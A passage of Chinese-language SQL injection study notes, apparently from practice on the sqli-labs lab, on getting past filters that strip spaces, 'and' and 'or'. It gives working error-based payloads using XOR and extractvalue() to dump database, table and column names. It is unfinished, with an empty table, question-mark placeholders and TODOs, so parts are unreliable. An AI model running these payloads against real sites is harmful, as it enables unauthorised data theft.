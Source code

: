### §4.5.2 `%0b`与`%0c`

| ASCII码 | 含义 |
| ------- | ---- |
|         |      |
|         |      |









对于这个注入点：`SELECT * FROM users WHERE id='' LIMIT 0,1`，并且过滤了空格与`and`、`or`，可以使用`^`运算符。其优点在于这个二元运算符两侧的表达式之间不必有空格，可以错误注入。

`select username from ... where ...`包含空格，那么我们就用`select(username)from(...)where(...)`

不能用`where(id=1)`的`=`，我们就用`where((列名)like('数据'))`

不幸的是，`LIMIT`子句没有`LIMIT(1)`、`LIMIT(0),(1)`、`LIMIT(0,1)`之类的绕过方法，必须带空格。所以无法通过`LIMIT`指定输出哪一行的数据

`left()`与`right()`会在数据库有多行时返回多行，需要用`group_concat()`变成一行，才能？？？？

爆数据库名：

```sql
?id=1'^extractvalue(1,concat(0x7e,(select(database()))))%23
```

爆表名：

```sql
?id=1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('数据库名')))))%23
```

爆列名：

```sql
?id=1'^extractvalue(0x0a,concat(0x0a,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('表名')))))%23
```

或者TODO：？？？？？？？`select/**/*/**/from/**/users`



## §4.4 截取字符串绕`substr()`与`substring()`

使用字符串拼接运算符`||`

？？？？？？？？？？？？？？？？

```
mysql> SELECT * from users where id regexp('1');
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | 123      |
| 10 | admin2   | 123      |
| 11 | admin3   | 123      |
| 12 | dhakkan  | 123      |
| 14 | admin4   | 123      |
+----+----------+----------+
5 rows in set (0.00 sec)

mysql> SELECT * from users where id regexp('1') && username regexp('^a');
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 10 | admin2   | 123      |
```